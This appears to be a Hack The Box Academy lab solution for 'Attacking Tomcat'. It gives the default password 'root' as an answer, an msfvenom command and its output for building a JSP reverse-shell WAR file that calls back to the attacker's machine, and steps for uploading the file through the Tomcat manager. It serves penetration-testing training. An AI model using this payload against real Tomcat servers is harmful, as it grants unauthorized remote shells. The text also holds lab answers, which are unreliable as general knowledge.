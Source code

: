 # Attacking Tomcat

## Question 2

### "What is the password?"

From the previous question, students know that the password of the user `tomcat` is `root`.

Answer: `root`

# Attacking Tomcat

## Question 3

### "Obtain remote code execution on the web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat\_flag.txt"

After spawning the target machine, students need to make sure that the following `VHost` entry is present in `/etc/hosts`:

- `STMIP web01.inlanefreight.local`

Students then need to generate a `JSP` reverse-shell payload using `msfvenom`:

Code: shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=PWNIP LPORT=PWNPO -f war -o backup.war
```

```
┌─[us-academy-1]─[10.10.14.6]─[htb-ac413848@htb-f6k4hfqgg8]─[~]
└──╼ [★]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=9001 -f war -o backup.war

Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: backup.war
```

Subsequently, students need to navigate to `http://web01.inlanefreight.local/manager/html` and use the previously harvested credentials `tomcat:root`:

![[HTB Solutions/CPTS/z. images/52dda48c2630fe0177df46b832f2023f_MD5.jpg]]

Once logged in, students need to scroll down the page until they find "WAR file to upload" and click on "Browse" to upload and then deploy the `msfvenom` generated payload:

![[HTB Solutions/CPTS/z. images/bae6ebabb022567acff1c8c937f11413_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/a067bb8614739d927657c115caf71c77_MD5.jpg]]
